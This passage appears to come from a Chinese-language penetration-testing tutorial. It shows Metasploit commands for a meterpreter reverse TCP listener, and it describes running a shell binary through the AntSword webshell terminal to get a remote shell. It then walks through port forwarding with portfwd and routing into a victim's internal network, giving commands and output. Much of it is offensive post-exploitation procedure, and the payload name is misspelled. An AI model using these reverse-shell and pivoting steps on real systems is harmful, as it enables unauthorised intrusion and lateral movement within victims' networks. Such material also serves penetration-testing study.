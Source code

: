 ```
use exploit/multi/handler
set payloads linux/x86/meterpreter/reverset_tcp
set lhost 我的ip
set lport 我的端口
run
```

执行了这些命令，发现msf开始监听端口，这个时候通过蚁剑终端运行`./shell.elf`命令，就可以获得一个`meterpreter`类型的shell

得到shell之后，我们需要先建立`meterpreter基本隧道代理`

#### **meterpreter基本隧道代理**

[>>学习连接](https://www.freebuf.com/sectool/56432.html)

#### 1.portfwd

portfwd 是meterpreter提供的一种基本的端口转发。porfwd可以反弹单个端口到本地，并且监听.使用方法如下:

```
meterpreter > portfwd 
0 total local port forwards.
meterpreter > portfwd  -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
    -L <opt>  The local host to listen on (optional).
    -h        Help banner.
    -l <opt>  The local port to listen on.
    -p <opt>  The remote port to connect to.
    -r <opt>  The remote host to connect to.
```

使用实例介绍：

反弹10.1.1.129端口3389到本地2222并监听那么可以使用如下方法：

```
meterpreter > portfwd add -l 2222 -r 10.1.1.129 -p 3389
[*] Local TCP relay created: 0.0.0.0:2222 <-> 10.1.1.129:3389
meterpreter > portfwd 
0: 0.0.0.0:2222 -> 10.1.1.129:3389
1 total local port forwards.
```

#### 2. pivot

pivot是meterpreter最常用的一种代理，可以轻松把你的机器代理到受害者内网环境，下面介绍下pivot的搭建和使用方法

使用方法`route add 目标ip或ip段 子网掩码 session序号`

要使用代理的会话，通过实例来说明：

在metasploit添加一个路由表，目的是访问10.1.1.129将通过meterpreter的会话 1 来访问：

```
msf exploit(handler) > route add 10.1.1.129 255.255.255.255 1
[*] Route added
msf exploit(handler) > route print 
Active Routing Table
====================
   Subnet             Netmask            Gateway
   ------             -------            -------
   10.1.1.129         255.255.255.255    Session 1
```
